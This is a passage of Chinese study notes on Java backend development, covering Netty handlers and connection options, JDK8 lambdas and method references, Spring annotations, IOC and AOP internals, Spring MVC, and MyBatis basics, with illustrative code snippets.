1. handlerAdded（将ChannleHandler添加到ChannlePipeline链中）
2. handlerRemoved
3. exceptionCaught


##### Handler

ChannelInboundHandler和ChannelOutboundHandler

包含的方法与Channel的生命周期息息相关，在上面状态的基础上还有读写状态改变

如重写channelRead方法，会显示的释放与池化ByteBuf实例相关的内存


而他的子类==SimpleChannelInboundHandler==会自动释放里面相应内存


ChanneloutboundHandler出站操作和数据将由该类负责


##### 资源管理

在调用handler的read和write方法时候，需要确保没有资源泄露

```java
ReleaseCountUtil.release(msg);
```


##### ChannleHandlerContext

代表了ChannleHandler和ChanlePipeline之间的关联，每当ChannleHannler添加到ChannelPipeline中的时候，都会创建对应的ChannelHandlerContext

与之不同的是，调用Channel和ChannlePipeline上的方法会流动整个传播链

==而调用ChannelHandlerContext会从其对应的ChannelHandler出发，并且只会传播给下一个handler==


下图是组件之间的关系




##### 优化与源码

###### Connect_timeout_millis

- 属于socketchannel参数
- 用在客户端建立连接时，如果在指定毫秒内未连接，会跑出timeout异常

在bootstrap的option方法中设置

```java
.option(ChannelOption.CONNECT_TIMEOUT_MILLIS,10000)
```

==源码查看如下==，本质是创建了一个定时任务，如果超时了执行定时任务并设置promise为失败，让主线程通过promise来结束连接

```java
AbstractNioChannel.this.connectTimeoutFuture = AbstractNioChannel.this.eventLoop().schedule(new Runnable() {
   public void run() {
     ChannelPromise connectPromise = AbstractNioChannel.this.connectPromise;
     ConnectTimeoutException cause = new    ConnectTimeoutException("connection timed out: " + remoteAddress);
     if (connectPromise != null && connectPromise.tryFailure(cause)) {
                             AbstractNioUnsafe.this.close(AbstractNioUnsafe.this.voidPromise());
                                    }
                                }
                            }, (long)connectTimeoutMillis, TimeUnit.MILLISECONDS);
```


###### ALLOCATOR

bytebuf默认分配是基于下面配置文件类型

如果是安卓系统就是非池化，如果不是就是默认池化

```java
String allocType = SystemPropertyUtil.get(
                "io.netty.allocator.type", PlatformDependent.isAndroid() ? "unpooled" : "pooled");
```


###### RECVALLOCATOR

决定butebuf的大小和是否是直接内存，与上面的ALLOCATOR配合使用

其也是决定了入站的缓冲大小


###### 连接队列

三次握手时候：

1. client发送SYN给server，状态修改为SYN_SEND，server收到后，状态改为了SYN_REVD，并将请求加入到sync queue队列中
2. server回复SYN+ACK给client，client状态更改为ESTABLISHED，并发送ACK给server
3. server收到ACK后，状态更改为ESTABLISHED，并把请求从syn queue队列中放到accep queue中


==netty中通过，可以控制服务器端==

```JAVA
.option(ChannelOption.SO_BACKLOG,300)
```

**注意**：windows中以netty中为准，而在linux中要根据配置文件和netty中最小值为准


###### 心跳检测

用于在连接中，在客户端没有正常发送数据情况下，确认客户端还存在

客户端配置如下

```java
//这里设置了关心了自己的写事件是否触发，设置了5秒
.addLast(new IdleStateHandler(0,5,0)
.addLast(new ChannelDuplexHandler(){
      @Override
      public void userEventTriggered(ChannelHandlerContext ctx, Object evt) throws Exception {
          IdleStateEvent evt1 = (IdleStateEvent) evt;
          if(evt1.state()== IdleState.WRITER_IDLE){
          //发送心跳包给服务器，证明还活着
               System.out.println("发送心跳包给服务器");
               ctx.writeAndFlush(new PingMessage());
           }
         }
  })
```

服务器设置如下

服务器设置了关心有没有读取到客户端发送消息的事件，设置等待7秒

如果没有收到心跳包消息那么就会断开与客户端联系

```java
.addLast(new IdleStateHandler(7,0,0))
.addLast(new ChannelDuplexHandler(){
    @Override
      public void userEventTriggered(ChannelHandlerContext ctx, Object evt) throws Exception {
         IdleStateEvent evt1 = (IdleStateEvent) evt;
         if(evt1.state()== IdleState.READER_IDLE){
         //没有收到回复直接断开
         ctx.channel().close();
                                            }
                                        }
                                    })
```


### JDK8新特性

#### Lambda表达式

##### 标准格式

()->{
            System.out.println("女孩大大");
        }

()参数列表

->没有意义

{}方法体内容


解决匿名内部类过于冗长的问题，下面这个如果不用lambda很繁琐

```java
public class FuncInterTest {
    public static void main(String[] args) {
        new Boy(()->{
            System.out.println("女孩大大");
        }).start();
    }
}
//不用lambda
public class FuncInterTest {
    public static void main(String[] args) {
       new Boy(new Girl() {
            @Override
            public void buy() {
                System.out.println("女孩大大");
            }
        }).start();
    }
}
@FunctionalInterface
interface Girl{
    public void buy();
}
class Boy{
    Girl girl;
    Boy(Girl girl){
        this.girl = girl;
    }
    void start(){
        girl.buy();
    }
}

```

可以从上面看到要实现lambda表达式，匿名类必须是个接口，并且有==@FunctionalInterface==注解，该注解会检测接口里面提供只提供一个抽象方法，当然也可以不添加@FunctionalInterface注解

lambda还在运行时候生成一个内部类，重写接口方法为lambda定义的实现


##### lambda省略格式

1. 小括号内参数类型可以省略

2. 小括号只有一个参数，可以省略小括号

3. 大括号内只有一个语句，可以省略大括号、return语句和语句分号

   ```java
   new Boy((int money)->{
               return money>0;
           }).start(5);
   省略后
   new Boy(money-> money>0).start(5);
   ```


##### 匿名内部类和lambda的区别

- 所需类型不一样
  - 匿名内部类可以是类、接口、抽象类
  - lambda必须为接口
- 抽象方法数量不一样
  - 匿名内部类可以是多个方法
  - lambda必须只有一个
- 实现原理不一样
  - 匿名内部类是编译器生成class
  - lambda是在运行时候生成class


#### 接口的默认方法和静态方法

##### 默认方法

接口的默认方法不会使得实现类必须去重写，减小了实现类的工作量，方便扩展

格式为

```java
interface 接口名{
	修饰符 default 返回值类型 方法名(){
        代码;
    }
}
```


使用方法：

1. 实现类直接使用

   ```java
   public class InterfaceTest {
       public static void main(String[] args) {
           A a = new B();
           a.haha();
       }
   }
   interface A{
       default void haha(){
           System.out.println("hahh");
       }
   }
   class B implements A{
   
   }
   ```

   

2. 实现类对其重写


##### 静态方法

```java
interface 接口名{
	修饰符 static 返回值类型 方法名(){
        代码;
    }
}
```

接口名直接调用方法名来使用静态方法

但注意静态方法不允许继承和重写

```java
public class InterfaceTest {
    public static void main(String[] args) {
        A.haha();
    }
}
interface A{
    static void haha(){
        System.out.println("hahh");
    }
}
```


#### 方法引用

符号表示   **：：**

应用场景 lambda所要实现的方案在其他方法中已经实现过了，直接使用方法引用对应方法


常见引用方式

1. instanceName::methodName 对象：：方法名

   ```java
   public class InterfaceTest {
       public static void main(String[] args) {
           InterfaceTest interfaceTest = new InterfaceTest();
           interfaceTest.print(interfaceTest::haha);
       }
       public void print(A a){
           a.hah();
       }
       public void haha(){
           System.out.println("haha");
       }
       interface A{
           void hah();
       }
   }
   
   ```

2. className::staticMethodName 类名：：静态方法名

   ```java
   public class InterfaceTest {
       public static void main(String[] args) {
           InterfaceTest interfaceTest = new InterfaceTest();
           interfaceTest.print(InterfaceTest::haha);
       }
       public void print(A a){
           a.hah();
       }
       public static void haha(){
           System.out.println("haha");
       }
       interface A{
           void hah();
       }
   }
   
   ```

   

3. className::methonName 类名：：方法名

4. className::new 类名：：new构造函数

5. TypeName[]::new String[]:new 调用数组构造函数


## 项目过程

- 启动，可行性分析，立项，了解项目背景
- 计划阶段：进度安排，资源计划，成本估计，质量保证计划，风险考虑，实施细节
- 实施阶段：开发，测试，上线
- 收尾


## WEB

正向代理

客户端想要访问原始服务器，无法访问到或其他原因，通过代理服务器来帮助他来访问



反向代理

客户端访问的原始服务器就是代理服务器，代理服务器再根据需求转到其他服务器





## Spring

### 注解

#### @Configuration

本质是使用了@Component注解，用来替代spring的application.xml文件，被此注解修饰的类会被自动装载到容器

使用场景：用于编写配置的类，通常使用次注解。该注解写到主配置类上，其他配置类被@Import注解导入到主配置类中。

```java
@Configuration
//导入另外一个副配置文件
@Import(JdbcConfiguration.class)
public class SpringConfiguration 
```


```java
@Target(ElementType.TYPE)
@Retention(RetentionPolicy.RUNTIME)
@Documented
@Component
public @interface Configuration 
```


#### @ComponetScan

用来扫描@Componet及其衍生类注解，负责把他们注入到容器中。

```java
@ComponentScan(value = "com.cuit.service")
```

这里主要到@Componet这些默认不给value值也会有名字，跟着spring代码查看命名规则

会在**AnnotatedBeanDefinitionReader**这个类上区获取beanName的名字

```java
String beanName = (name != null ? name : this.beanNameGenerator.generateBeanName(abd, this.registry));
```

上面我们注意到是用了**beanNameGenerator**去生成beanName，该类的接口为，定义生成beanName的方法

```java
public interface BeanNameGenerator {
    String generateBeanName(BeanDefinition var1, BeanDefinitionRegistry var2);
}
```

跟到其子类**AnnotationBeanNameGenerator**，可以看到大概是**determineBeanNameFromAnnotation**有值得话就直接输出名字，没有的话生成默认名字

```java
if (definition instanceof AnnotatedBeanDefinition) {
			String beanName = determineBeanNameFromAnnotation((AnnotatedBeanDefinition) definition);
			if (StringUtils.hasText(beanName)) {
				// Explicit bean name found.
				return beanName;
			}
		}
		// Fallback: generate a unique default bean name.
		return buildDefaultBeanName(definition, registry);
```

我们继续跟进到**determineBeanNameFromAnnotation**里面，大概规则是获取类上的所有注解，for循环遍历注解获得其属性，判断其实不是@component注解，如果是的话获取其属性值value，没有的话返回null

```java
protected String determineBeanNameFromAnnotation(AnnotatedBeanDefinition annotatedDef) {
		AnnotationMetadata amd = annotatedDef.getMetadata();
		Set<String> types = amd.getAnnotationTypes();
		String beanName = null;
		for (String type : types) {
			AnnotationAttributes attributes = AnnotationConfigUtils.attributesFor(amd, type);
			if (isStereotypeWithNameValue(type, amd.getMetaAnnotationTypes(type), attributes)) {
				Object value = attributes.get("value");
				if (value instanceof String) {
					String strVal = (String) value;
					if (StringUtils.hasLength(strVal)) {
						if (beanName != null && !strVal.equals(beanName)) {
							throw new IllegalStateException("Stereotype annotations suggest inconsistent " +
									"component names: '" + beanName + "' versus '" + strVal + "'");
						}
						beanName = strVal;
					}
				}
			}
		}
		return beanName;
	}
```

我们再看一下没有设置属性的话，默认名字的代码，可以看到是截取为类名并且是把首字母小写，这就是spring容器给bean命名规则

```java
	protected String buildDefaultBeanName(BeanDefinition definition) {
		String shortClassName = ClassUtils.getShortName(definition.getBeanClassName());
		return Introspector.decapitalize(shortClassName);
	}
```

==这里我们可以自己写一个beanNameGenerator==步骤如下

1. 编写beanNameGenerator的子类

   1. ​	这里我设置如果没有设置属性值得话，自动命名为liquid，当然这里随便乱写的

      ```java
      public class LiquidNameGen implements BeanNameGenerator{
          private static final String COMPONENT_ANNOTATION_CLASSNAME = "org.springframework.stereotype.Component";
          public String generateBeanName(BeanDefinition beanDefinition, BeanDefinitionRegistry beanDefinitionRegistry) {
              String beanName = null;
              if(beanDefinition instanceof AnnotatedBeanDefinition){
                  AnnotatedBeanDefinition beanDefinition1 = (AnnotatedBeanDefinition) beanDefinition;
                  AnnotationMetadata metadata = beanDefinition1.getMetadata();
                  //获取bean的所有定义信息
                  Set<String> annotationTypes = metadata.getAnnotationTypes();
                  for(String type:annotationTypes){
                      //拿到注解的属性
                      AnnotationAttributes annotationAttributes = AnnotationAttributes.fromMap(metadata.getAnnotationAttributes(type));
                      //判断属性是否为null，同时必须是@componet及其衍生注解
                      if (isStereotypeWithNameValue(type, metadata.getMetaAnnotationTypes(type), annotationAttributes)) {
                          Object value = annotationAttributes.get("value");
                          if (value instanceof String) {
                              String strVal = (String) value;
                              if (StringUtils.hasLength(strVal)) {
                                  if (beanName != null && !strVal.equals(beanName)) {
                                      throw new IllegalStateException("Stereotype annotations suggest inconsistent " +
                                              "component names: '" + beanName + "' versus '" + strVal + "'");
                                  }
                                  beanName = strVal;
                              }
                          }
                      }
                  }
              }
              return beanName!=null?beanName:"liquid";
          }
          protected boolean isStereotypeWithNameValue(String annotationType,
                                                      Set<String> metaAnnotationTypes, Map<String, Object> attributes) {
      
              boolean isStereotype = annotationType.equals(COMPONENT_ANNOTATION_CLASSNAME) ||
                      (metaAnnotationTypes != null && metaAnnotationTypes.contains(COMPONENT_ANNOTATION_CLASSNAME)) ||
                      annotationType.equals("javax.annotation.ManagedBean") ||
                      annotationType.equals("javax.inject.Named");
      
              return (isStereotype && attributes != null && attributes.containsKey("value"));
          }
      }
      ```

      

2. 设置其到@ComponetScan注解的属性nameGenerator中替换原本的类

```java
@ComponentScan(value = "com.cuit.service",nameGenerator = LiquidNameGen.class)
```


#### @Bean

一般就用在方法上，把方法返回的对象存储到IOC容器中

默认以方法名作为bean的名字

```java
	@Bean
    public JdbcTemplate createJdbcTemplate(DataSource dataSource){
        return new JdbcTemplate(dataSource);
    }
```


#### @Import

可以导入另外一个配置文件到**Import**注解所在的配置文件中，该注解也会把value值里面的类注册到容器中，这里通过**@import**导入的类的名字是该类的全限定名，而不是类名的小写了

```java
@Target(ElementType.TYPE)
@Retention(RetentionPolicy.RUNTIME)
@Documented
public @interface Import {

	/**
	 * {@link Configuration}, {@link ImportSelector}, {@link ImportBeanDefinitionRegistrar}
	 * or regular component classes to import.
	 */
	Class<?>[] value();

}
```


##### 高级应用

用于加载自定义的注解类或者不需要spring原生的注解来注册类到容器，需要实现类**ImportBeanDefinitionRegistrar**或者**ImportSelector**这两个类

比如我这里不需要用@bean或者@component注解来注册类，直接加载指定路径下的类

1、实现**ImportBeanDefinitionRegistrar**

```java
public class MyImportRegistryt implements ImportBeanDefinitionRegistrar {
    private String expression = null;
    private String packages = null;
    private static final String PACKAGE = "custom.package";
    private static final String  EXPRESSION = "custom.expression";

    public MyImportRegistryt() {
        try{
            Properties properties = PropertiesLoaderUtils.loadAllProperties("importRegis.properties");
            expression = properties.getProperty(EXPRESSION);
            packages = properties.getProperty(PACKAGE);
        }catch(Exception e){
            e.printStackTrace();
        }
    }

    public void registerBeanDefinitions(AnnotationMetadata importingClassMetadata, BeanDefinitionRegistry registry) {
        ClassPathBeanDefinitionScanner classPathBeanDefinitionScanner = new ClassPathBeanDefinitionScanner(registry,false);
        AspectJTypeFilter aspectJTypeFilter = new AspectJTypeFilter(expression,MyImportRegistryt.class.getClassLoader());
        classPathBeanDefinitionScanner.addIncludeFilter(aspectJTypeFilter);
        classPathBeanDefinitionScanner.scan(packages);
    }
}

//指定配置文件
custom.expression=com.cuit.importTest.service..*
custom.package=com.cuit.importTest.service
```

2、导入该类到配置中

```java
@Configuration
@Import(MyImportRegistryt.class)
public class SpringImportConfiguration {
}
```

这样就可以注册com.cuit.importTest.service包下的类


==其实spring的原生注解==@componet就是实现了上面方法来达到的


#### 注解注入时机和设定条件

##### @DependsOn

使用此注解指定bean的创建顺序

```java
@Target({ElementType.TYPE, ElementType.METHOD})
@Retention(RetentionPolicy.RUNTIME)
@Documented
public @interface DependsOn {

	String[] value() default {};

}
```

下面的**EventListener**在**eventSource**创建之后

```java
@Component
@DependsOn("eventSource")
public class EventListener {
    public EventListener() {
        System.out.println("监听器创建");
    }
}
```


##### @Conditional

```java
@Retention(RetentionPolicy.RUNTIME)
@Target({ElementType.TYPE, ElementType.METHOD})
public @interface Conditional {

	/**
	 * All {@link Condition}s that must {@linkplain Condition#matches match}
	 * in order for the component to be registered.
	 */
	Class<? extends Condition>[] value();

}
```


考虑有不同环境的情况下，需要切换数据库

这下面使用windows数据库就需要满足Conditional中的WindowsConditoion条件，同理linux也是

```java
@Bean("dataSource")
    @Conditional(WindowsCondition.class)
    public DataSource createWindowsDataSource(){
        DriverManagerDataSource driverManagerDataSource = new DriverManagerDataSource();
        driverManagerDataSource.setDriverClassName(driver);
        driverManagerDataSource.setUrl(url);
        driverManagerDataSource.setUsername(username);
        driverManagerDataSource.setPassword(password);
        return driverManagerDataSource;
    }

    @Bean("dataSource")
    @Conditional(LinuxCondition.class)
    public DataSource createLinuxDataSource(@Value("${linux.jdbc.driver}") String linuxDriver,@Value("${linux.jdbc.url}")String linuxUrl,
                                       @Value("${linux.jdbc.username}")String linuxUsername,@Value("${linux.jdbc.password}")String linuxPassword){
        DriverManagerDataSource driverManagerDataSource = new DriverManagerDataSource();
        driverManagerDataSource.setDriverClassName(linuxDriver);
        driverManagerDataSource.setUrl(linuxUrl);
        driverManagerDataSource.setUsername(linuxUsername);
        driverManagerDataSource.setPassword(linuxPassword);
        return driverManagerDataSource;
    }
```

实现Condition接口,判断当前环境是windows吗，如果是就允许注册对象，如果不是就不允许

```java
public class WindowsCondition implements Condition{
    public boolean matches(ConditionContext context, AnnotatedTypeMetadata metadata) {
        Environment environment = context.getEnvironment();
        String osName = environment.getProperty("os.name");
        if(osName.contains("Windows")){
            return true;
        }
        return false;
    }
}

public class LinuxCondition implements Condition {
    public boolean matches(ConditionContext context, AnnotatedTypeMetadata metadata) {
        Environment environment = context.getEnvironment();
        String osName = environment.getProperty("os.name");
        if(osName.contains("Linux")){
            return true;
        }
        return false;
    }
}
```

##### @Profile

用于配置切换环境一般为@Profile("test")

可以看到该注解下有**@Conditional(ProfileCondition.class)**，需要符合里面类的条件才能把**@Profile**修辞的注解的类注册到容器

```java
@Retention(RetentionPolicy.RUNTIME)
@Target({ElementType.TYPE, ElementType.METHOD})
@Documented
@Conditional(ProfileCondition.class)
public @interface Profile {

	/**
	 * The set of profiles for which the annotated component should be registered.
	 */
	String[] value();

}
```

**ProfileCondition**可以看到该类用来判断当前环境下profile的值active环境是否对应value中的test值，如果对应，那么返回true

```java
class ProfileCondition implements Condition {

	@Override
	public boolean matches(ConditionContext context, AnnotatedTypeMetadata metadata) {
		if (context.getEnvironment() != null) {
			MultiValueMap<String, Object> attrs = metadata.getAllAnnotationAttributes(Profile.class.getName());
			if (attrs != null) {
				for (Object value : attrs.get("value")) {
					if (context.getEnvironment().acceptsProfiles(((String[]) value))) {
						return true;
					}
				}
				return false;
			}
		}
		return true;
	}

}
```

那么acitve环境对应的注解为**@ActiveProfiles("test")**，表test明当前激活环境为test


#### @EnableAspectJAutoProxy

开启aop自动代理

proxyTargetClass默认为false使用jdk代理，为true使用cglib代理

```java
@Target(ElementType.TYPE)
@Retention(RetentionPolicy.RUNTIME)
@Documented
@Import(AspectJAutoProxyRegistrar.class)
public @interface EnableAspectJAutoProxy {
    /**
	 * Indicate whether subclass-based (CGLIB) proxies are to be created as opposed
	 * to standard Java interface-based proxies. The default is {@code false}.
	 */
	boolean proxyTargetClass() default false;

	/**
	 * Indicate that the proxy should be exposed by the AOP framework as a {@code ThreadLocal}
	 * for retrieval via the {@link org.springframework.aop.framework.AopContext} class.
	 * Off by default, i.e. no guarantees that {@code AopContext} access will work.
	 * @since 4.3.1
	 */
	boolean exposeProxy() default false;

}
```

该注解会导入**AspectJAutoProxyRegistrar**类，该类实现了**ImportBeanDefinitionRegistrar**，用来注册指定类到容器，该类下面的一个方法就是在注册类到容器，如下

```java
AopConfigUtils.registerAspectJAnnotationAutoProxyCreatorIfNecessary(registry);
//最终会把AnnotationAwareAspectJAutoProxyCreator.class注册到容器，beanDefinition就是那个类
registry.registerBeanDefinition("org.springframework.aop.config.internalAutoProxyCreator", beanDefinition);
```


#### @Pointcut

切入点表达式，其他切面的其他通知要使用的话，直接引用pointcut的全限定方法名

```java
@Component
@Aspect
public class LogUtil {

    @Pointcut(value="execution(* com.cuit.config.Aspect.*.*(..))")
    private void pointcut1(){

    }

    @Before("com.cuit.config.utils.LogUtil.pointcut1()")
    public void printLog(){
        System.out.println("打印日志");
    }
}
```


#### 扩展目标类

##### @DeclareParents

类级别增强


### IOC

控制反转，就是把java对象生成交给了spring来管理

对象谁来创建？

spring容器

对象如何创建？

使用反射

```java
Class clazz =  Person.class;
Constructor ctor = clazz.getConstructor();
Object obj =  ctor.newInstance();
```


#### IOC容器设计与实现

有两个主要容器系列：一个是beanFactory接口的简单容器系列，只实现了容器最基本的功能；一个是ApplicationContext，他作为容器高级形态


在spring中，实际是把DefaultListableBeanFactory作为一个默认的完整IOC容器使用。

spring通过定义BeanDefintion来管理基于spring的各种对象及其依赖关系。BeanDefintion抽象了我们对Bean的定义


#### beanFactory

其中**ListBeanFactory**和**HierarchicalBeanFactory**是两个不同分支的实现


**ApplicationContext**

```
继承了他们两个，是高级实现类
提供了国家化支持MessageSource接口
发布应用文上下文事件ApplicationEventPublisher
丰富资源获取功能ResourcePatternResolver
```

**ConfigurableApplicationContext**

```
该接口里面包含了核心方法refresh()，是ioc容器的创建过程
```

**AnnotationConfigApplicationContext**

1、this();用来初始化reader和scaner为扫描配置文件做准备

2、register或者scan方法是用来把默认类和配置类注册到容器中

3、refresh方法也就是用户自定义类的注册

```java
public AnnotationConfigApplicationContext(Class<?>... annotatedClasses) {
		this();
		register(annotatedClasses);
		refresh();
	}

	/**
	 * Create a new AnnotationConfigApplicationContext, scanning for bean definitions
	 * in the given packages and automatically refreshing the context.
	 * @param basePackages the packages to check for annotated classes
	 */
	public AnnotationConfigApplicationContext(String... basePackages) {
		this();
		scan(basePackages);
		refresh();
	}
```


beanfactory和factoryBean，前一个是管理bean的，后一个适用于那些在配置文件中不好生成的bean（添加信息过多太繁琐的）提供了了一种自定义方式生成bean

```java
@Component
public class LiquidFactoryBean implements FactoryBean {
    public Object getObject() throws Exception {
        Liquid liquid = new Liquid();
        liquid.setId(123);
        liquid.setName("factory bean is good");
        return liquid;
    }

    public Class<?> getObjectType() {
        return null;
    }

    public boolean isSingleton() {
        return false;
    }
}
```


#### BeanDefinition

存储bean定义信息的数据结构

BeanDefinitionHolder是对BeanDefinition的封装，也就是BeanDefinition的name和其自身封装到BeanDefinitionHolder中


#### IOC容器初始化

IOC容器初始化是由前面介绍的refresh()方法来启动的。分为下面三步：

1、第一个过程时Resource的定位

2、是BeanDefintion的载入

3、向IOC容器注册这些BeanDefinition的过程


```java
@Override
	public void refresh() throws BeansException, IllegalStateException {
		synchronized (this.startupShutdownMonitor) {
			// Prepare this context for refreshing.
			prepareRefresh();

			// Tell the subclass to refresh the internal bean factory.
			ConfigurableListableBeanFactory beanFactory = obtainFreshBeanFactory();

			// Prepare the bean factory for use in this context.
			prepareBeanFactory(beanFactory);

			try {
				// Allows post-processing of the bean factory in context subclasses.
				postProcessBeanFactory(beanFactory);

				// Invoke factory processors registered as beans in the context.
				invokeBeanFactoryPostProcessors(beanFactory);

				// Register bean processors that intercept bean creation.
				registerBeanPostProcessors(beanFactory);

				// Initialize message source for this context.
				initMessageSource();

				// Initialize event multicaster for this context.
				initApplicationEventMulticaster();

				// Initialize other special beans in specific context subclasses.
				onRefresh();

				// Check for listener beans and register them.
				registerListeners();

				// Instantiate all remaining (non-lazy-init) singletons.
				finishBeanFactoryInitialization(beanFactory);

				// Last step: publish corresponding event.
				finishRefresh();
			}

			catch (BeansException ex) {
				if (logger.isWarnEnabled()) {
					logger.warn("Exception encountered during context initialization - " +
							"cancelling refresh attempt: " + ex);
				}

				// Destroy already created singletons to avoid dangling resources.
				destroyBeans();

				// Reset 'active' flag.
				cancelRefresh(ex);

				// Propagate exception to caller.
				throw ex;
			}

			finally {
				// Reset common introspection caches in Spring's core, since we
				// might not ever need metadata for singleton beans anymore...
				resetCommonCaches();
			}
		}
	}
```


容器初始化完成以后，客户第一次请求容器获得bean，容器才会把bean相应的依赖关系进行注入，如果提前注入可以使用lazy-init属性进行设置，在依赖完成后，容器会维持这些依赖关系


##### BeanDefintion的载入和解析

下面是载入过程，这里创建了一个XmlBeanDefinitionReader来解析beanDefintion

```java
protected void loadBeanDefinitions(DefaultListableBeanFactory beanFactory) throws BeansException, IOException {
        XmlBeanDefinitionReader beanDefinitionReader = new XmlBeanDefinitionReader(beanFactory);
        beanDefinitionReader.setEnvironment(this.getEnvironment());
        beanDefinitionReader.setResourceLoader(this);
        beanDefinitionReader.setEntityResolver(new ResourceEntityResolver(this));
        this.initBeanDefinitionReader(beanDefinitionReader);
        this.loadBeanDefinitions(beanDefinitionReader);
    }
```

这里会创建BeanDefinitionDocumentReader来读取Document树，并解析它按照bean规则

```java
public int registerBeanDefinitions(Document doc, Resource resource) throws BeanDefinitionStoreException {
        BeanDefinitionDocumentReader documentReader = this.createBeanDefinitionDocumentReader();
        int countBefore = this.getRegistry().getBeanDefinitionCount();
        documentReader.registerBeanDefinitions(doc, this.createReaderContext(resource));
        return this.getRegistry().getBeanDefinitionCount() - countBefore;
    }
```


##### Bean的注册

IOC容器DefaultListableBeanFactory用一个concurrentHashMap来管理BeanDefintion

```java
private final Map<String, BeanDefinition> beanDefinitionMap = new ConcurrentHashMap(256);
```

下面这段代码完成了注册

```java
this.beanDefinitionMap.put(beanName, beanDefinition);
```


##### bean的生命周期


###### beanpostProcessor

后置处理器是一个监听器，他可以监听容器触发的事件，要使用后置处理器，就需要具体的去实现BeanPostProcessor，然后配置称为bean，他有两个方法需要实现一个是applyBeanPostProcessorsBeforeInitialization，另外一个是applyBeanPostProcessorsAfterInitialization

下面的代码是applyBeanPostProcessorsBeforeInitialization的回调，把相应的bean对应的后置处理器迭代来执行相应方法

```java
public Object applyBeanPostProcessorsBeforeInitialization(Object existingBean, String beanName) throws BeansException {
        Object result = existingBean;
        Iterator var4 = this.getBeanPostProcessors().iterator();

        do {
            if (!var4.hasNext()) {
                return result;
            }

            BeanPostProcessor beanProcessor = (BeanPostProcessor)var4.next();
            result = beanProcessor.postProcessBeforeInitialization(result, beanName);
        } while(result != null);

        return result;
```


###### beanAware

当bean需要容器的一些状态时候，可以通过实现相应Aware接口来完成

如BeanNameAware可以在bean中的到IOC容器中bean实例名称

​	ApplicationContextAware可以在bean中得到上下文服务


### AOP

诞生背景：开发过程中程序总是出现一些重复的代码，而且不太方便使用继承的方法把他们重用或管理起来。他们功能单一重复且需要在不同位置。AOP就诞生了使用aop后不仅可以将这些重复的代码抽取出来单独维护，需要使用时候统一调用。在springaop中最新的可以使用注解来植入代码

aop的原理在于[代理](#代理)技术


#### 基本概念

- Advice通知
  - 定义了在连接点做什么，为切面增强提供织入接口，提供了各种通知接口
- PointCut
  - 决定了通知应该在那个连接点（也可以是那些方法）的集合
- Advisor通知器
  - 对通知和切入点的结合


#### 代理对象

下面是主要的继承关系，ProxyConfig是一个数据基类，提供了配置属性的功能。AdvisedSupport封装了AOP对通知和通知器的相关操作。由ProxyFactoryBean来完成相关aop逻辑工作


下面是总的流程this.initializeAdvisorChain();是在初始化通知器链

```java
public Object getObject() throws BeansException {
        this.initializeAdvisorChain();
        if (this.isSingleton()) {
            return this.getSingletonInstance();
        } else {
            if (this.targetName == null) {
                this.logger.warn("Using non-singleton proxies with singleton targets is often undesirable. Enable prototype proxies by setting the 'targetName' property.");
            }

            return this.newPrototypeInstance();
        }
    }
```

然后再根据单例或者原型调用aop代理，具体的aop代理根据类有无接口来选择jdk或者cglib（JdkDynamicAopProxy和CglibProxyFactory）

具体代理对象生成是ProxyFactoryBean的基类AdvisedSupport实现中借助AopSupportFactory完成的

```java
public AopProxy createAopProxy(AdvisedSupport config) throws AopConfigException {
        if (!config.isOptimize() && !config.isProxyTargetClass() && !this.hasNoUserSuppliedProxyInterfaces(config)) {
            return new JdkDynamicAopProxy(config);
        } else {
            Class<?> targetClass = config.getTargetClass();
            if (targetClass == null) {
                throw new AopConfigException("TargetSource cannot determine target class: Either an interface or a target is required for proxy creation.");
            } else {
                return (AopProxy)(!targetClass.isInterface() && !Proxy.isProxyClass(targetClass) ? new ObjenesisCglibAopProxy(config) : new JdkDynamicAopProxy(config));
            }
        }
    }
```


### 事务

传播行为：指的就是当一个事务方法被另一个事务方法调用时，这个事务方法应该如何进行。 
例如：methodA事务方法调用methodB事务方法时，methodB是继续在调用者methodA的事务中运行呢，还是为自己开启一个新事务运行，这就是由methodB的事务传播行为决定的。


### 循环依赖

1、什么是循环依赖

两个对象创建依赖于对方

2、spring如何解决它

3、为什么要使用三级缓存解决循环依赖问题？

三级缓存的三个名字：singletonObjects、earlySingletonObjects、singletonFactories


三级缓存读取顺序：从一级缓存读，读不到就读二级缓存，二级缓存没有，就三级缓存


## Springmvc

### 工作流程




### springmvc响应方式

1. 页面跳转
   1. 直接返回字符串
   2. 通过ModelAndView对象返回
2. 回写数据
   1. 直接返回字符串
   2. 返回对象或集合

springboot前后端分离后，返回的一般是json字符串


@**ResponseBody**注解告知mvc框架不进行师徒跳转，直接进行数据相应


<mvc:annotation-driven>自动加载处理器映射器和处理器社佩奇，并且底层继承了jackson对对象和集合进行json字符串转换


### springmvc获得请求数据

#### 获得请求参数

- 基本数据类型
  - 参数名与请求参数名一致，会自动映射匹配
- pojo类型
- 数组类型
- 集合类型
  - 当使用ajax提交时候，可以指定contentype为json形式，在方法参数位置使用**@RequestBody**可以直接接受集合数据而无需使用pojo进行包装

#### 占位符绑定

地址/user/1中的1就是要获得的请求参数，可以使用占位符绑定来获得，如/user/{id}，配合注解**@PathVariable**

```java
@RequestMapping(value ="/user/{id}")
    @ResponseBody
    public void userid(@PathVariable("id")int id){
        System.out.println(id);
    }
```


### 静态资源访问控制

```java
//开启静态资源访问
<mvc:resources mapping="/js/**" location="/js/" />
//或者使用，如果找不到就是用tomcat来寻找资源
<mvc:default-servlet-handler/>
```


### 拦截器

类似于Servlet的过滤器Fiter，用于对处理器进行预处理和后处理

将拦截器按成顺序结成链，称为拦截器链，也是AOP思想的体现，netty也应用了

通过自定义实现拦截器可以做身份验证和权限验证





接口代码如下

```java
public interface HandlerInterceptor {
    //在请求处理之前
    boolean preHandle(HttpServletRequest var1, HttpServletResponse var2, Object var3) throws Exception;

    //在视图渲染返回前
    void postHandle(HttpServletRequest var1, HttpServletResponse var2, Object var3, ModelAndView var4) throws Exception;

    //请求结束之后
    void afterCompletion(HttpServletRequest var1, HttpServletResponse var2, Object var3, Exception var4) throws Exception;
}
```


### 异常处理

异常处理交给springmvc的异常处理器统一处理，而不是在业务层代码里处理异常，起到解耦的作用




## Mybatis

原始jdbc存在的问题：

1. 数据库创建连接、释放连接频繁造成资源浪费从而影响系统性能
2. sql语句在代码中硬编码，造成代码不宜维护
3. 查询等操作，需要手动封装数据


解决方案：

1. 使用数据库连接池来管理资源
2. 将sql语句抽取出来放到xml文件中
3. 使用反射等底层技术，自动将实体表与数据库表对应属性和字段映射


**mybatis**就是上面解决方案的一个实现，让开发者只关注sql语句本身


### 开发步骤

1. 创建数据表
2. 创建实体类
3. 编写映射文件Mapper.xml
4. 编写配置文件SqlMapConfig.xml文件


